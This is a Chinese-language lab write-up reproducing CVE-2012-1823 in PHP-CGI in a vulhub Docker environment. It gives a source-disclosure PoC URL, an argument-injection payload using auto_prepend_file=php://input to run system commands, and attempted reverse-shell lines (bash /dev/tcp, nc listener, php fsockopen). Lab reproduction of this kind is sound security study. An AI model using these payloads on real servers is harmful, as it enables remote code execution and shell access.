

## 构建

``` shell
cd ./vulhub/php/CVE-2012-1823
docker-compose up -d 
```

## 漏洞原理
https://blog.csdn.net/jiyongx/article/details/105220880

## PoC（Proof of Concept） 验证漏洞存在的代码
```shell
http://<ip>:<port>/index.php/?-s #将返回源码
```

## Exp（Exploit）进行实际的攻击利用
使用-d来指定auto_prepend_file制造任意文件包含漏洞，使用burpsuite抓包，然后修改数据包内容。使用“+”代替空格%3d代替“=”​​​​​​​

payload 漏洞利用载荷：

```url
-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input
<?php echo system("ls"); ?>
```

执行截图：



成功执行代码ls


### 尝试建立反弹shell（失败）：

shellcode 

**被控机上用nc建立client进行连接**执行payload <?php echo shell_exec("bash -i >& /dev/tcp/<接收ip>/9999 0>&1");
**接收反弹Shell机器**执行：**`nc -lvp 9999`**

失败，暂不知道为什么，后面再说吧

```shell
<?php system('php -r \'$sock=fsockopen("127.0.0.1",9999);exec("/bin/bash -i <&3 >&3 2>&3");\''); ?>
```


## 复现总结

### 为什么payload 要 “+”代替空格%3d代替“=” ？

确保 URL 在传输过程中不被误解或破坏，进行转义。通常，空格会被编码为 `%20`，但在查询字符串中，空格也可以用 `+` 来表示。“=”替换为“%3d”
但on+-d ‘+’ 作为与后一个-d的参数分隔符，不能换成 %20